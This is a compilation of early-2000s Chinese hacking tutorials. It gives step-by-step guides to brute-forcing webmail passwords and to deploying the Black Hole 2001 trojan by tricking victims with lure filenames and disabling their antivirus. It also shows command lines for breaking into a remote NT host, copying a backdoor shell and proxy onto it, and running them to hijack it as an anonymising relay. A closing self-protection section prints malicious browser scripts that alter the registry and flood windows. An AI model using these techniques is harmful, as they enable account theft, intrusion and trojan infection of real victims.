- 4. 出现了 xxx 电子邮局的首页，点击“Mode→Normal Mode”切换为表单模式；就会发现浏览窗口被分成 4 格。其中 3、4 格均为空白表格。如果启动后就出现这样的窗口，那这一步就免了。


- 5. 选择 File→Import form current URL（Ctrl+I）强制提取表单，所说的表单就是页面上提交的 NAME/PASS 等信息什么的。命令执行完就会发现第 3、4 格表格内有了内容。这里要注意的是第 3 格的 NAME / PASS。
- 6. 双击第 3 格表单 user 项，会出现设置窗口。其中 Element Const 是提取表单时用户名，我们输入 FLSY2000。Dictionary 是破解的用户列表（就是用于破解多用户的 PASS），可以通过浏览加入列表文件，比如 Name.dic。其它的一般不用更改。


- 7. 双击 Pass 项，出现一个窗口：（和上面用户名的很像吧！）既然是 Pass，就需要字典了，点击右侧的 Browse 找到你自己使用的字典。
- 8. 现在我们有了用户名、字典，就可以开始破解了。点击“Run→Submit Test”，会出现以下情况：出现出错的窗口，这说明可以探测；如果没有出现出错窗口就有点麻烦。


- 9. 再点击“Run→Start/Re-Start”，出现窗口 Save scan Result：因为我们要探测的是一个密码，所以选中“Just For Once”然后点击确定！如果不选的话，有时候会出现一大堆密码。（如下图）


- 10. 出现了错误标志：这步是关键，标志选择的正确与否直接影响到你的破解速度和结果！具体选择是需要经验的，多练习几次就好了！一般来说选择第一个出错提示就可以。我们选择“title”，点击它！用“title”来作为错误标志，将它复制到下面的 Tags 中，当然也可以用默认的来试。（如下图）


如果这个不行，我们用下面的。


- 11. 上面点击 OK 开始探测：
  探测失败提示：scan ended no diff result; been found!
  探测成功提示：不会有不高兴的表情了，而有了相应的密码提示！


- 12. 探测结果罢了：另外有的时候探测出来结果后窗口没有弹出，但在右侧的屏幕上会显示 FOUND PASS ........

其实它的窗口不是 4 个。看看下面的就知道了：

其实还有许多技巧要在实践中自己逐步摸索。时间长了，你会发现溯雪能做的远不止破解密码，还能做许多有用的事情，甚至学习 CGI。

在实际运用上你可以举一反三。试试破解生日的方法吧！基本操作方法是一样的，而且成功率还高于穷举 Pass！开始练习？不！先申请一个自己的信箱，然后再拿它练习。别人的信箱可不关你什么事。

在学习过程中，一切实际操作都应该在国家法律法规允许的范围进行。

## 网络绝密高手 Web Cracker

使用这款软件，才能真正体会到作为网络解密高手的感觉。Web Cracker 2.0 虽然自身很小，但确实拥有很实用的功能，当然具有解密软件的基本功能：破解 User IDs（用户名）和 Passwords（口令）。另外，它还支持代理服务器。利用 Web Cracker 2.0 来破解网络上的用户名和口令是非常方便的，你只要分别指定保存有用户名和口令的词典文件，然后输入目标主机的地址就可以开始进行破解；并且，该软件还拥有声音提示功能，让你不至于找到了密码还在睡觉。下面，我们就按照其缺省设置来实际操作一下该软件。运行该软件，出现 Web Cracker 2.0 主界面。（如图1）

我们从其主界面上可以看见菜单栏有四个菜单项，分别是 File、Edit、Tools 和 Help。用鼠标单击“File”菜单项，弹出下拉菜单。（如图2）

用鼠标单击“Load User IDs”（装载用户名文件）选项，弹出“打开”对话框。（如图3）

在该对话框中，用鼠标双击要装载的用户名文件，返回到主界面，我们可以从“User IDs”下的列表框中看见已经加入的用户名，从列表框下可以看到加入的用户名数量。（如图4）

加入用户名以后，我们再装载口令文件；用鼠标单击“File”菜单下的“Load Passwords”选项，在弹出的“打开”对话框中双击要装载的口令文件。选择以后，我们可以从主界面上看到“Passwords”下的列表框显示出已经加入的各种口令，从列表框下可以看到加入的口令数量。（如图5）

把用户名和口令装载完毕后，请在主界面的“Target URL:”文本输入框中输入要连接的地址，这个地址可以是网址或者 IP 地址。（如图6）

当输入地址完毕，我们可以发现主界面上的“Start”按钮由灰变黑，用鼠标单击该按钮，Web Cracker 2.0 开始进行攻击。其破解的方法是：先自动选择一个用户名，然后再一个一个地试口令；口令试完以后还没有被破解，再自动选择下一个用户名；接着再一个一个口令地试；依次不断循环下去，直至被破解成功或用户名和口令均试完。如果“幸运”地“不小心”破解成功，就可以以破解出的用户名和口令进入该网站或网页了。


## 黑洞旅程

黑洞 2001 是黑洞 2000 的升级版本。在这个版本中作者加入了一些新的功能和特性，最吸引人的地方是它的进程监控功能。在黑洞 2000 中虽然已经实现了这个功能，但黑洞 2000 只能监控天网一个进程，2001 却能同时对多进程进行监控！下面介绍一下实际的功能运用过程。

## 黑洞之旅

- 1. 锁定 IP：加一个显 IP 的补丁，QQ 就拥有了 IP 实时追踪功能。然后打声招呼后直接用 QQ 把改过名的服务端（文件夹图标）发过去。


找个借口让他（她）运行服务端，需要什么借口？比如：a. 我给你的情书。b. 张柏芝裸照。c. 国家最高机密。d. 宠物精灵贴图。e. 拉登 911 炸弹等等……

等对方运行后……

- 2. 黑洞的操作：连接和智能进程监控：

黑洞 2000 与 2001 的图标：


这可要注意了，不要按错了服务端！使用前要改名，文件夹图标很迷惑人，也省去捆绑这道手续。看属性你会发现其实它是 exe 文件。


- 1. 连接：添加 IP 地址，选择应用后连接，线路好的话会很快提示连接成功，可以对远程主机进行操作了。

选择黑洞 2001 是因为它的抗毒能力很好！不是最新的病毒库一般无法查杀。它也具有万能密码——babycjilloveyou，并且封杀了对缓存口令的读取。它的具体控制操作和冰河基本一样，黑洞这方面只能算冰河的完整版了。

- 2. 智能进程监控：选用黑洞的另一个主要原因是在配置服务器设置里非常实用的智能监控功能。


黑洞 2001“智能监控”的用途主要是杀掉实时的天网、毒霸、瑞星等防火墙进程。

服务端设置后每隔 1 分钟就刷新进程，发现有与定义的进程字符相符合的，就立刻将这个进程关闭，使杀毒软件无法运行！这个针对防火墙的设置，为你更为所欲为地控制这个“养马场”提供绝佳的作案场所。

注：“毒”针对大部分的杀毒软件；“墙”针对防火墙、天网等。

虽然这不是吞噬一切的黑洞，但在冰河远程入侵无法取得突破的时候，可以使用黑洞来破门。

- 黑洞的几种清除方法：
  - 1）控制端上自卸载功能。
  - 2）用木马克星等清除。
  - 3）修改注册表的方式清除黑洞。有些麻烦，不建议使用。

以上是它的使用方法和功能介绍。无论你的使用目的如何，都必须在国家法律法规允许的范围内进行。

## 教你怎样做代理

王亮

Internet 已经成为我们生活中不可或缺的一部分，查找资料、QQ 聊天、新闻论坛、远程办公、IP 电话、世界杯现场直播等应用让我们相信，即使我们足不出户，也能通过网络交互创造社会价值和洞知天下大小事。

所谓有利有弊，极速发展的互联网，也产生了各种各样的问题，比如 IP 地址紧缺、网络资源不能合理利用、不良信息的传播等等，还有一个更为突出的问题就是网络安全问题，网络安全的重要性在这里就不再多说了。在网络安全机制还没有完善的今天（不过，也好像永远无法完善，再接近完美的东西总会有它不完美的地方，这个道理也适合用在自称完美安全的系统上），对于我们个人或者小型企业有没有一种简便的方法，让我们能安全地遨游在互联网的极速冲浪中呢？答案是肯定的，那就是今天我们所说的代理（也称代理服务器）。

代理服务器是为解决网络安全问题、充分利用网络资源而生的。简单地概述一下，比如你使用一个有效的代理上网，它就能从根本上保护你的安全性，因为它隐藏了你的真实 IP，管他黑客有多刁钻，即使自己不装防火墙都没关系，因为代理服务器本身就是一个最好的防火墙（或称“挡箭牌”更合适一些），黑客所攻击的只是你的代理服务器而已。

下面我们从代理的一些最基本概念入手，先为大家铺平理解上的难度，然后列出有关代理服务器的实用问题解答，最后就是我们的真枪真刀的代理实干了。相信大家看完全文，不但有理论上的收获，更重要的是你自己也能动手做代理了。

## 一、代理基本概念及其工作原理

代理服务器的英文全称是 Proxy Cache Server，其功能就像一个网络信息的中转站，它中间的英文 Cache 就能让我们粗略感觉它的“缓存”功能。

代理服务器能根据网络用户的要求去取得所要求的信息。比如你想访问某个目标网站是 http://xhacker.xilubbs.com，由于某种原因你不能访问到该网站或者你不想直接访问这个网站，这样你就可以通过代理服务器网站去访问它，主要流程是你首先通过已经设置了代理的浏览器发出访问该网站的请求，Request（请求）信号会先送到代理服务器，代理服务器再根据你的请求访问目标网站，并且把访问的内容再传送到你的浏览器上。再打个有点形象的比喻，你不懂英文，所以不能和外商交流，但是你可以通过你的翻译来进行交流，翻译再把外商的反馈结果再通过你能理解的语言回传给你。这样说是为了让大家更能方便理解代理服务器作为“中转站”的这样一个基本原理。

## 二、使用代理服务器的好处

使用代理服务器的好处主要有以下三点：

- 1、加速网络浏览

首先，在有些情况下可以加快对网络的浏览速度。尤其在我们的网速比较慢的时候就比较明显，这里主要针对拨号用户。

原因是大部分的代理服务器都具有比较大的缓存 Cache，当有许多用户同时使用这一代理服务器的时候（实际上绝大部分代理服务器都不会让一个人长期独享的），他们对 Internet 上所有请求的数据都会保存在代理服务器的硬盘缓冲区里，这样下次有人请求要访问的信息时，代理服务器首先会在自己的硬盘缓冲区里找有没有相关的信息，找到了后就直接从硬盘缓冲区里转给用户，而不是再去访问 Internet 上的相关站点，这样就节约了用户的时间，加快了网络浏览的速度。

代理服务器由于有类似于电脑 CPU 的一级、二级缓存这样的运行机制，使得它可以有效地节约网络带宽，提高访问效率，使之成为了 Modem 用户的一个提高网速的法宝。

- 2、DNS 服务

因为通过 ISP 或局域网的网关，你可能无法访问真正意义上的 Internet，所以使用代理服务器还可以充当为间接性的 DNS 服务器。我国的上网用户群体主要分为两大类（先不谈 263、铁通），分为 163、169。其中 169 的用户网外权是最低的，也就是只能访问国内的一些网站，比如 Guest 用户，只能对 IP 地址为 10 开头的网站进行访问。比如我以前就是这样，但自从使用了代理服务器后，我也一样能轻松遨游网络了，OTCQ、FTP、ICQ、各种免费主页空间、网络资源，自如访问互联网上的各种网站，再也没有 IP 地址为 10 的限制了……

- 3、肉鸡防火墙

代理服务器带给我们的不仅仅是一种服务，它的“中转站”访问机制成为了我们的有效防火墙，尤其是对于黑客来说这样的机制更重要。当黑客准备入侵一台计划中的存在 CGI 漏洞的服务器时，他就会利用代理服务器进行访问并刺探，那么受攻击的服务器所记录下来的攻击日志中的 IP 就不会是黑客自身的 IP 地址，而是代理服务器的 IP。再如果代理服务器自身又没有记录下黑客的 IP，那么这样就形成了追踪黑客的不可逆向追踪，很多黑客能够被称到“踏雪无痕，来无影，去无踪”，通常就是因为他们利用了被当作了“肉鸡”的代理服务器；网络安全人员往往在追踪到代理服务器这儿就被迫中断重要的线索。

比如前些日子有个网站被黑，从中查出的黑客 IP 居然是指向四川某著名电子商务网站的，但该网站里的日志中的黑客 IP 又被消除了（因为被黑客拿到了 Admin 管理权限）。水平再高的网络安全专家也无法得知这位黑客的去向了，只知道这个商务网站原先是黑客的代理跳板。正因为代理有这样的特性，才被广大黑客公认称为“肉鸡”（就是替代自己挨宰的意思）。

同样由此可见代理也是个人极好的保护伞，黑客对你发起攻击也只是对代理服务器进行攻击。

当然并不是所有的代理服务器都对外开放，免费对外开放的则更少。即使你偶尔获得一个免费的代理服务器，也可能它第二天就消失了或者要用密码才能访问了，因此，如何不断地找到可用的代理服务器就成了当务之急，在下面一节中我们将教你如何寻找免费代理服务器。

## 三、代理服务器的常见问题

**问：为什么我原来好用的代理服务器突然不能使用了？**

答：代理服务器具有较强的时效性，代理服务器有时候运行一段时间，就被迫关闭了，原因多种多样。因为许多服务器的代理服务本身是不公开的，但有的人一扫描到了，然后发现的人越来越多，代理服务器的使用就会越来越频繁，最终导致服务器工作负担增加而不得不关闭代理服务。这时候你需要再找新的代理服务器使用了。这点非常麻烦，本人使用代理猎手的软件，曾经几小时都没有找到过一台代理，可见在寻找方面是非常浪费时间的。

**问：有没有地方免费提供代理？**

答：有，有些网站提供免费代理服务器的地址列表，在一些黑客网站也提供代理。最受欢迎的有 Socks5（Socks5 是一种透明的代理协议，很好地解决了认证、保密，以及代理接力等问题，Netscape、IE 等可以直接使用这种代理协议，而且可以使用 Socks5 的 Client 软件，使那些不直接支持 Socks5 代理的 Internet 软件通过代理访问 Internet。更重要的是，Socks5 支持 UDP 协议的代理，使得受公司防火墙限制的 QQ、ICQ 用户，可以通过 Socks5 代理协议照样聊天无限制了。）

这里我们给大家提供一个代理服务器列表网站：http://www8.big.or.jp/~000/CyberSyndrome/。该网站每三个小时就公布一次新的代理列表，而且还有代理服务器的性能评价。如果你还不满足，可以在 www.google.net（全球最好的搜索引擎）填入“免费代理”的关键字进行搜索，看看结果怎么样，哇，共有 6910 个有关代理的项目被搜索出来，这下够用了吧，如图 1：


**问：许多文章说代理服务器能够提高访问速度，但我使用了代理后怎么反而降低了访问速度？**

答：这个要视具体情况而定，如果你是这个代理服务器上第一个访问目的网站的用户，那么，使用代理服务器的访问速度会降低；如果你不是第一个访问目的网站的用户，速度有可能提高，原因是在第一个用户访问代理服务器以后，目标网站的内容就保存在代理服务器上了，你要访问目的网站，此时的网页是从代理服务器直接获取的，速度有可能提高；但是由于有些代理服务器本身的线路质量、繁忙程度，还有你的 Modem 和 ISP Modem 的接驳速度、你与代理服务器的物理距离等等因素，都会直接影响着你。即使你不是代理的第一个访问用户，速度也可能比原来不用代理还慢。

**问：为什么有人说使用了代理服务器能降低上网费用？**

答：使用了代理服务器确实能降低一部分上网费用，但对象并不是指通过拨号上网的用户，而是指那些直接通过网卡上网的固定 IP 用户。由于直接上网用户的网费是通过数据流量来计算的，这类用户如果设置了通过免费的代理服务器上外国的网站，那么用户的费用就会转嫁到服务器上，由服务器给你交钱（当然如果用户访问的是国外免费的站点，那么服务器也不用替你交钱）。因为这种降低并没有直接出国访问，所有的数据都是代理服务器硬盘转存给你的，而国外的数据是先传给了代理服务器，这部分流量当然算代理服务器的钱了！所以代理服务器必须要在服务器硬盘上开辟很大一个缓冲区，并且限制用户能访问到的站点，这都是为了不会使数据流量增加得太多。但纵观全国，除了一些名牌大学之外，我们“散户”中有谁是通过网卡直接上网的呢？甚至不少朋友连直接上网的概念还不知道呢！对于我们普通用户，上网形式都是通过 Modem 拨到电信局的服务器，然后再上 Internet，这时费用的计算是通过接驳时间来算的。所以我们并不能享受免费代理服务器节省网费的优惠性。相反，如果你选择的代理服务器不当，限制了大部分你以前能访问的网站而你又不知道的话，你可能会花大量时间去反复尝试浏览那些本来能浏览的网站，结果上网费用将大大增加，得不偿失。

**问：代理服务器本身有没有安全问题？**

答：使用代理服务器时，你的所有操作均有可能被记录在案，包括时间、路由、各种申请、用户 ID、密码等等，因此有可能导致秘密的泄漏。对于网上其他用户和服务器来说你是安全的，可是相对于代理服务器本身来说，你却被一览无余！代理服务器的管理员或者通过其他手段拥有代理服务器管理权限的人员，就能够轻而易举地拥有你的秘密！因此强烈建议：不要使用代理服务器收发涉及个人隐私和机构秘密的电子邮件；不要使用代理服务器从事违法行为；不要使用代理服务器 FTP 和进行其他需要提供用户 ID 和密码的操作！而且如果拥有的代理都是自己做的，所以不存在恶意代理，也就是说所谓的肉鸡，所以它们的代理是非常安全的（下面的小节中我们将给大家详细讲解黑客是如何做代理的）。我们普通用户由于技术性不会太高，没有能力做一台代理，只能使用别人安装的代理。

**问：谁在提供代理服务器？**

答：前面提到代理的主要功能是提高速度，因而提供代理的大体有两类：

- 是大型机关、企业事业、教育机构
- 是 ISP 商

前者通常有线设备专线，按理速度应该是很快的，但由于使用者太多（比如，一根 64K 专线，500 个终端，速度还不如拨号快），也不堪重负。这时，一个代理就解决问题了。大多数信息（统计是在 70% 以上）都是常用的，可以直接从本地读取。只有少量信息才要重新从外界获取，速度自然快很多，费用也可以大量节省。提供代理的 ISP 们也是一样，只不过面对的对象是拨号上网的用户而已。

## 四、如何使用代理

### 1、HTTP 代理

首先讲讲 HTTP 代理（也就是浏览器的代理）。我在这提供给大家一个非常出色的代理软件 MultiProxy，下载地址为 http://www.goeway.com/software/SoftwareDown.asp?id=174。这是个汉化过的版本，安装就不多说了，反正一直确定就可以了。安装好后，先不打开它。我们先要对浏览器进行一些设置，以便与代理软件交互信息。这里以 IE 浏览器为例，按次序打开 IE 浏览器→工具→Internet 选项→连接，如图 2；

然后选中你目前使用的连接，然后点设置按钮，在“代理服务器”栏选中“使用代理服务器”→在“地址”和“端口”栏分别输入 127.0.0.1 和端口号 8088→按“确定”后设置完毕。如图 3：


现在就可以打开 MultiProxy，由于 MultiProxy 预设在软件里面已经有 10 个 Proxy，所以你根本不需要对软件进行任何设置，就可以直接使用 MultiProxy 了。

但是实际情况是它预设的代理由于用的人实在太多，基本上没有好用的可能性了。所以我们需要自己 DIY 一下，就是加入好用的代理服务器。而代理服务器我们不需要自己搜索了，因为有个好网站提供给我们了。接下来我们打开 http://www8.big.or.jp/~000/CyberSyndrome/ 网站，打开后点 anonymous（A）选项，出现了许多代理列表了吧？如图 4：

接着打开 MultiProxy 的代理列表→选项→代理服务器列表→菜单→添加，然后你填入代理列表中的某个地址与端口，它会自动判断你给它的代理服务器是否可用。如图 5：


大家看到了吗？我共填写了 11 个地址，共有 9 个是绿点，2 个是红点。我在这解释一下：

这个圆点代表了这个 Proxy 的状态，绿色代表可以用，红色代表这个 Proxy 连不过（如果连不通的话，可以隔一段时间再试一次），灰色代表禁止使用这个 Proxy。也就是说最少有两个不好用了。好了，返回主界面然后你点一下最小化按钮，我们这时就可以浏览主页了。现在你只需要重新打开 IE，输入那些我原本不能访问的地址（我是 163 非包月拨号用户），如输入 www.bhs.com，见图 6：


### 2、Socks5 代理

www.bhs.com 记录下来的日志中也只有代理服务器的，没有我们的，这下我们完全隐身了。有关 HTTP 的代理我就讲完了，下面我为大家讲讲最受欢迎的 Socks5 代理。

Socks5 代理最常见的是应用于 QQ 或者 ICQ 上，主要是用来隐藏自己的真实 IP。因为许多人攻击事件都是直接从 QQ 上取得用户 IP 的，所以 Socks5 代理成为了最受欢迎的代理。Socks5 代理主要有三种获取方式：一种是自己用代理猎手搜索，由于这种方式非常费时，找到一个有效的代理都要费许多时间，所以现在不太受欢迎了。还有一种是从有些网站上获得 Socks5 代理列表，但是其可用性非常低，往往几十个代理列表都没有一个可用的。第三种是自己做，这种方式最好，这也是我要讲的。由于这方面需要用到一点入侵技术，所以我尽可能讲得直观一点，而且我主张大家不要用国内的主机做，我今天选一台台湾 NT 主机为例。在这之前我推荐大家下载一套代理工具包，代理工具包下载地址为 http://211.154.129.167/ncz/xhacker/qq.rar（在配套光盘中也有提供）。下载后，我们先用 newletmein \\x.x.x.x -all -q（文章中提到的 x.x.x.x 均为 IP 地址），看看能不能列出用户列表，如图 7：


好，如果可以列出，就说明这台主机符合我们做 Socks5 服务器的第一步要求。

```text
newletmein \\x.x.x.x -all -G
```

再接下来进行破解。输入命令：

哈！运气真的不错，账号和密码都为 Administrator 的网管账号！（如图 8）可能你一开始没有这么好的运气或者没有入侵经验，但是你多试试，因为这样的肉鸡多的是，我 5 分钟就至少能找到几十台以上。接下去要把我们的 Winshell 木马和 Snake 的代理软件 Copy 上去了。

```text
D:\>net use \\x.x.x.x\ipc$ Administrator /user:administrator
```

命令成功完成。

```text
D:\>copy winshell.exe \\x.x.x.x\admin$\system32
```

已复制 1 个文件。

```text
D:\>copy sss.exe \\x.x.x.x\admin$\system32
```

已复制 1 个文件。

```text
D:\>net time \\x.x.x.x
```

\\x.x.x.x 的当前时间是 2002/6/14 下午 02:48

命令成功完成。

然后启动 winshell.exe

at \\x.x.x.x time winshell.exe

再 telnet 上 winshell.exe 所开的端口进行代理软件的安装，如图 9：


具体的安装方法都在图 9 上面，大家仔细看看就明白了。如果对 sss 还有什么问题，直接运行 sss 即可得到详细的帮助。最后按 exit 退出。接下来打开 QQ 的系统参数→网络设置，把这个主机的 IP 和代理端口（我设定的是 4568）填进去，然后按测试，如图 10：


OK！我们的代理服务器正常工作中！然后把 QQ 下线再上线，这样现在才能使用上代理。再看看我的所在地理位置和 IP 吧，如图 11：


图 11

呵呵，什么时候跑到台湾去了。现在我的 IP 地址中也显示的是代理服务器的地址！

后面给大家附上代理服务器在各种软件中的设置方法。

## 五、代理服务器在各种软件中的设置

### 浏览器代理服务器设置

以 Internet Explorer 5.0 为例，菜单栏“工具”->“Internet 选项”->选择选项卡“连接”->在“拨号设置”中，选中你以前使用的连接，然后点击右侧的“设置...”，选中“使用代理服务器”，在“地址”和“端口”栏分别输入你的 HTTP 代理服务器地址和端口，再点击“确定”。

### 使用代理收 163 信箱的信

假设你有 POP3 代理服务器，例如：203.95.7.196，你的账号为 Algam@21cn.com，则在 Outlook Express 或 FOXMAIL 3.0 中应按如下设置：POP3 服务器地址中填写：代理服务器地址 203.95.7.196（端口无须设定）；SMTP 服务器地址为：原来的 SMTP 服务器地址，smtp.21cn.com（实际上因为不需要用它发信，所以 SMTP 服务器地址可以随便填写）；账号为：原来账号 Algam#21cn.com（即用“#”取代原来的“@”符号）；口令为：原来的账号口令。

### ICQ 中使用代理

假设你有 Socks5 代理服务器，例如：202.96.58.241，则在 ICQ 系统菜单->喜好设定->连接下，选择“我在防火墙下或 PROXY 下”，点击“防火墙设置”，选择“我使用 Socks5 proxy 服务器”。下一步在 Socks5（防火墙）主机地址中填入代理的地址，在端口号中填入 Socks5 的端口号（一般是 1080），如果不确定代理服务器是否可用，可以按“检查我的防火墙/PROXY 设置”。然后点击“完成”。

### ICQ2000 中使用代理

icq->preferences->connections->firewall->proxies/firewall->选择代理服务器类型“Socks4 or Socks5 or https”，在“proxy server”页填上“host”地址和“port”，最后不要忘记选择“use proxy to resolve hostnames”。

注意：由于没试验过，但是据一些网友们说在安装时候如果不使用代理服务器，后来使用时可能将不能使用代理服务器上 icq。

### 使用代理上 OICQ

假设你有 Socks5 代理服务器，例如：202.96.58.241，则在 QQ“主菜单”下的“系统菜单”里选择“系统参数”，在设置对话框中选择“网络设置”菜单，然后在“使用 Proxy Socks5 代理服务器”前面打勾，最后在“代理服务器地址”中填入代理的地址，在“端口号”中填入“Socks5 的端口号”（一般是 1080），如果不确定代理服务器是否可用，可以按登录用户名密码边上的测试按钮进行测试。

### 使用 FTP 代理服务器（上传／下载文件）

一般 FTP 软件设置：服务器栏：代理服务器地址，账号为：账号@原 FTP 服务器地址；密码为：原来的账号口令。

以 CUTE FTP 之中使用 FTP 代理为例子。菜单栏“FTP”->“SETTINGS”->“OPTIONS”->“FIRE WALL”->HOST：代理服务器地址->PORT：21->TYPE：USER user@site->选择“Enable firewall...”

### CUTE FTP 中使用 Socks 代理服务器（上传／下载文件）

以 CUTE FTP 4.0 为例：Edit->Settings...->Connection->Socks->选择“Socks4”或“Socks5”->在 Host 旁边填写上 Socks4 或 Socks5 代理服务器的地址（鉴于 Socks5 十分紧俏，又不稳定，请使用 Socks4 为好）->选择“Firewall”项，“Enable fire at...”旁边的复选框中的钩去掉。然后点击确定。现在就可以大大方方地使用 Socks4 代理服务器上传主页了。（虽然多数 Socks 代理都能上传主页，但有部分 Socks 代理由于不允许同一 IP 重复联接，可能不能上传，出现这种情况时，请换一个 Socks 代理）。

### 在网络蚂蚁中设置代理服务器

点击“网络蚂蚁”的菜单“选项”->参数设置->“代理”->点击“添加”->在“类型”下拉式列表中选择 http（get）->在“地址”中填写 http 代理服务器的地址；端口填写代理服务器的端口（例如 80）；在“名称”中随便起个名字，再一路选择“确定”。

当下载东西时，选择好了文件存放的本地文件夹之后，不要忙于去点“确定”。应该点“代理”，选择希望使用的代理服务器的名称，然后再点击“确定”，就可以使用这个代理服务器下载了。顺便说一句，本站长用“蚂蚁 + 自己专用的 http 代理”下载 1M 以上东西通常也都是能稳定在 6k/s 左右。

### 在 FlashGet 中设置代理服务器

以 FlashGet 为例：工具->选项->代理服务器->添加->填入一个名称（随便你）->选中一个类型（根据你要填入的代理服务器的类型）->填入代理地址及端口->“确定”->在你刚才添加的代理前的两个框中打勾，然后点击“确定”。

### 使用 Socks 代理上 IRC 聊天

在 mIRC 的菜单“文件”->“选项”->“连接”->“防火墙”->选择“使用代理服务器”->选择“Socks4”或者“Socks5”->在“主机”中填写上 Socks4 或者 Socks5 代理服务器的 IP 地址->端口用 1080->确定。

### 使用代理服务器上联众打游戏

运行“联众网络游戏世界”->点击“设置代理服务器”->选择要使用的 Socks4 还是 Socks5 代理（因为 Socks5 代理奇缺，建议打游戏时候使用 Socks4 代理）->在“代理服务器地址”中填写 Socks 代理服务器地址->端口默认为 1080->不要忘记选择“通过代理服务器联接 Internet”的复选框->“确定”->在“地址”中填写游戏服务器的 IP 地址（如果不知道它的 IP 地址，以上海分站为例，可以把地址 sh.ourgame.com 抄下来。然后打开“开始菜单”下的 MS-DOS 方式键入“ping sh.ourgame.com”，它会把 IP 地址返回来）->最后点击“连接”。

### V2 语音聊天软件中使用 Socks5 代理

系统设置->“网络”->“连接方式”中选择“我使用的是支持 Socks 协议的代理服务器”->“代理服务器（proxy）”->选择 Socks5->填写 Socks5 代理服务器的 IP 地址和端口 1080->“确定”->现在你可以使用语音聊天和朋友打电话了。

### CTERM2000 中使用 telnet 代理访问 BBS

文件->地址簿->选择自己要去的 BBS 或者自己增加新的 BBS 站->将原来放置在“地址”栏中的 BBS 的地址（例如：网易的 bbs.nease.net）剪贴到“自动登陆”栏中，原来的地方填写 telnet 代理服务器的 IP 地址（例如：203.93.37.248）->然后最好在“自动登陆”栏中 bbs.nease.net 后面加上“\n”表示回车，如果知道进入时需要键入什么用户名之类的还可以加上其他的转义符和字符。（具体可以看它的 Help）->为了方便，建议点击“输出到文档”按钮，将设置存入文档，方便以后使用->然后就可以按“连接站点”了。顺便说一句，我对 CTERM2000 的印象很好，使用也很简单，建议爱上 BBS 的用户使用。

代理的相关知识我就介绍到这了，如果你还有什么不明白的地方或者有什么好的建议，可以给我来信 Email:263admin@SINA.COM。

编者按：网络安全的问题已经成为当今世界的热门话题，面对这个既脆弱又不安全的网络，不知道你有什么感想？作为一名安全意识不高的网民，当你看了作者描述的种种“黑暗手段”之后，不知你有什么看法？本文从“戒掉上网瘾”和“在网络上自保”两个角度阐述，内容相当详细，每个方面都总结有所长，希望每位网民能从中受益。


## 网民，你该如何注意安全？

很多人问“我的机器中了木马，怎么消除？”，“我的 IE 被那些可恶的网页弄得主页改不了，救救我吧！”，“我的 QQ 号码被人盗了，可不可以帮我找回来？”，“我的上网卡老是被人盗取，怎样防止？”等等诸如此类的问题。看来，个人上网的安全还是个值得探讨的问题。下面，笔者根据自身的实践，配合具体例子，写下此文。

## 聪明上网，劈啪勿躁，当心八遇骗局

### 一、安装最新的防火墙和杀毒软件，及时打上系统补丁

“小心驶得万年船”，虽然数据的安全不能完全依赖防火墙，但是，有了一个“守门神”确实给您减少许多麻烦，至少那些只会玩木马的家伙没那么容易对你下手。不过防守总是比较慢半拍，所以防火墙和杀毒软件均要用最新版的才有效。防火墙建议您使用“天网”，而杀毒软件用“瑞星”也不错。同时，一定要注意给系统或软件打上最新的补丁，虽然穿着满身是补丁的外衣不是很好看，但为了您的安全，您不得不这样做。

### 二、慎防 IE 漏洞，避免不必要的伤害

现在，很多用户都喜欢使用微软的 Windows 系统，也就自然而然地使用了微软自带的浏览器 IE。由于 IE 本身的漏洞，给用户带来了不少麻烦，很多卑鄙的入侵者就是利用 IE 的漏洞来入侵用户的，包括入侵服务器在内。

具体细节不在此叙述，有兴趣的朋友可以查看相关的软件。

**防范措施：**①防范 IE 的漏洞惟有到微软的主页去下载补丁包，经常升级 IE，现在 IE 的 6.0 版本还不错。②将安全级别定义为“高级”，最好连“隐私首选项”也定义为“高级”，不过使用中就有点麻烦了。比如不允许下载，在论坛发言时要频频输入账户密码等。

### 三、肆无忌惮的 Script

主要包括 JavaScript 和 VBScript。也许笔者这样说有点过分，很多有趣的网页特效都是用 JavaScript 写的。但是，用户遭受的攻击有很多都与此相关！这种攻击是指攻击者将代码加入到网页中，通过浏览器下载到用户机器上并且运行，实现对用户系统攻击的手段。由于代码是在后台运行的，一般的人很难知道藏在网页上的花草丛里的究竟是什么名堂。以下是攻击者们利用 JavaScript 对用户实行攻击的几个常用的手法。注意：以下代码带有攻击性，仅供研究，使用者自担风险！

#### 1、非法修改注册表，更改 IE 属性

- 1）更改 IE 标题

某些网站为了给浏览者留下深刻的印象，故意修改用户系统注册表，在 IE 的标题栏里留下网址或者口号。这种行为虽然算不上恶意攻击，但会令用户很反感。如下两行代码可以实现对注册表的修改，从而更改了 IE 的标题：

```text
Shl.RegWrite("HKLM\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "欢迎光临XXX站")
Shl.RegWrite("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "欢迎光临XXX站")
```

- 2）更改 IE 默认主页

为了增加访问量，某些网站在浏览者访问过该站后自动将该页设为首页，用户以后每次启动 IE 时都访问一次该站，这是很不道德的。相关的源代码如下：

## 二、打开无数窗口，直至死机

你有没有试过在浏览网页时候，点某个按钮竟然打开无数个窗口，以致最后死机？其实很简单，懂得一点点 HTML 基础的人都办得到，只用一个循环语句即可实现，如：

```html
for(i=1;i<=10000;i++) // 连续打开窗口数为 10000 个！
{
window.open('link.htm','','width=窗口宽,height=窗口高',
'status=off','location=off','toolbar=off','scrollbars=off')
}
```

#### 3、通过浏览器捉弄用户

这是无聊作怪之举！如下面的代码，会导致屏幕闪烁刺眼，且没有什么恶意：

```html
<HTML><BODY>
<SCRIPT>
var color = new Array;
color[1] = "black";
color[2] = "white";
for(x = 0; x <3; x++)
{
    document.bgColor = color[x] // 黑白两色轮流交换，形成刺眼的效果。
    if(x == 2) // 当 x 增加到 2 时又从 0 开始，永远都小于 3，形成死循环。
    {
        x = 0;
    }
}
</SCRIPT> </BODY></HTML>
```

☞防范措施：打开网页时，按下 Ctrl+Alt+Del，在所运行的程序列表中结束任务即可。

#### 4、利用 IE 漏洞，致使 IE 死机

这是 2001 年 12 月 25 日发布的 Microsoft IE 的刷新拒绝服务漏洞！受影响的版本有 Microsoft Internet Explorer 6.0、Microsoft Internet Explorer 5.5 SP2、Microsoft Internet Explorer 5.5 SP1、Microsoft Internet Explorer 5.5。本该在前面讨论到 IE 漏洞时说的，但由于所用到的代码是 JavaScript，故放在这里介绍。

